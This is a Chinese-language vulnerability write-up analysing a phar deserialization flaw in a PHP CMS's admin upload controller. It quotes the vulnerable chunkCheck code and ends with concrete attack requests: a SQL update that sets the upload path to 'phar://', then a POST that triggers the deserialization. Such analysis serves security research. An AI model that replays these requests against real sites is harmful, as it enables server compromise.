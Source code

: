 漏洞位于`application/admin/controller/Upload.php`的`sublevel_upload`方法：

```php
        if($this->request->isPost()){
            if($this->request->post('status') == 'chunkCheck'){
                return $this->chunkCheck();
```

跟进`$this->chunkCheck()`：

```php
    protected function chunkCheck(){
        $upload_path = config('web.upload_path');
        $target =  $upload_path.$this->request->param('path').'/'.$this->request->post('name').'/'.$this->request->post('chunkIndex');
        if(file_exists($target) && filesize($target) == $_POST['size']){
            return json(['ifExist'=>1]);
        }
        return json(['ifExist'=>0]);
    }
```

可以发现`file_exists($target)`，看一下`$target`的组成：

```php
$upload_path = config('web.upload_path');
$target =  $upload_path.$this->request->param('path').'/'.$this->request->post('name').'/'.$this->request->post('chunkIndex');
```

还是老姿势了，`$upload_path`是从缓存或者数据库中读到的，后台清一下缓存，然后用一下SQL执行的功能就可以控制。后面拼接的也都是可控的，因此可以phar反序列化。



攻击：

先改一下`upload_path`：

```php
POST /admin/tool/sqlexecute.html
    
sql=update {pre}config set value  = 'phar://' where id = 88
```

然后直接phar打：

```php
http://www.kyxscms132.com/admin/upload/sublevel_upload

status=chunkCheck&path=./uploads/config/&name=20210602&chunkIndex=20a9e2a63d2a1e5d42094af2ec61e42e.png
```
